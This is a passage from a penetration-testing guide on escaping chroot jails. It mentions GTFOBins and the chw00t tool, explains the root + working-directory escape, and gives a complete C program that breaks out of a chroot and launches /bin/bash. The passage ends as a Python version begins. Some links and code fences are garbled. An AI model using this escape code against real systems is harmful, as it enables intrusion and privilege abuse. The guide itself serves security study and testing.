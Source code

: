 # Escaping from Jails


## **GTFOBins**

**Search in** [[https://gtfobins.github.io|**https://gtfobins.github.io/**]] **if you can execute any binary with "Shell" property**

## Chroot Escapes

From [[https://en.wikipedia.org/wiki/Chroot#Limitations): The chroot mechanism is **not intended to defend** against intentional tampering by **privileged** (**root**|wikipedia]] **users**. On most systems, chroot contexts do not stack properly and chrooted programs **with sufficient privileges may perform a second chroot to break out**.\
Usually this means that to escape you need to be root inside the chroot.

> [!TIP]
> The **tool** [[https://github.com/earthquake/chw00t|**chw00t**]] was created to abuse the following escenarios and scape from `chroot`.

### Root + CWD

> [!WARNING]
> If you are **root** inside a chroot you **can escape** creating **another chroot**. This because 2 chroots cannot coexists (in Linux), so if you create a folder and then **create a new chroot** on that new folder being **you outside of it**, you will now be **outside of the new chroot** and therefore you will be in the FS.
>
> This occurs because usually chroot DOESN'T move your working directory to the indicated one, so you can create a chroot but e outside of it.

Usually you won't find the `chroot` binary inside a chroot jail, but you **could compile, upload and execute** a binary:


**C: break\_chroot.c**


```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```
```



**Python**


```python
#!/usr/bin/python
import os
```